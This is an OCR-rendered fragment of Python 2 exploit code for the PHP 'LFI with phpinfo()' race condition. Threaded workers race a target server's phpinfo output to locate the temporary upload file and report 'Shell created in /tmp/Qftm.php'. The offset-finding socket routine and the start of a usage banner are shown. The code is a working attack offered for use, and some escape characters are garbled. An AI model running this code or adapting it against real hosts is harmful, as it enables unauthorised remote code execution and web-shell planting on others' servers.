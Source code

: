 ```python

    if d.find(tag) != -1:
        return fn

counter = 0

class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock = l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter += 1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print "nGot it! Shell created in /tmp/Qftm.php"
                    self.event.set()

            except socket.error:
                return

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)
        d += i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0rnrn"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print "found %s at %i" % (d[i:i + 10], i)
    # padded up a bit
    return i + 256

def main():
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
```
